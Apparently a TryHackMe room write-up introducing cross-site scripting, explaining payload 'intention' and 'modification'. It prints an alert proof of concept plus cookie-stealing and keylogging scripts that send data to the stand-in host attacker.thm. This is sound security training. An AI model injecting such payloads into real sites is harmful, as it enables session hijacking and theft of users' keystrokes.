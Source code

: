 ```yaml
---
title: Cross-site Scripting
desc: 'THM: Learn how to detect and exploit XSS vulnerabilities.'
---
```

## Task 1 - Room Brief
Cross-site Scripting (XSS) is classified  as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. This room covers the different types of XSS, how to create XSS payloads, and how to modify said payloads to evade filters.

## Task 2 - XSS Payloads
In XSS, the payload is the JavaScript code we wish to be executed on the target's computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do. The modification is the changes to the code we need to make for it to execute in the given scenario.

The following are some examples of XSS intentions:

### Proof of Concept
This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a web application. This is often done by causing an alert box to pop up on the page with a string of text.

```js
<script>alert('XSS');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the target machine. The below JavaScript takes the target's cookie, base64 encodes it to ensure successful transmission and then posts it to a website under the attacker's control to be logged. Once the attacker has the cookies, they can take over the target's session and log in as that user.

```js
<script>fetch('https://attacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### Key Logger
The below code acts as a key logger. It takes anything typed by the client and forwards it to a website under the attacker's control.

```js
<script>document.onkeypress = function(e) { fetch('https://attacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic
This payload is more specific than the above examples. This payload calls a particular network resource or a JavaScript function. For example, a JavaScript function for changing the user's email address called `user.changeEmail()`.
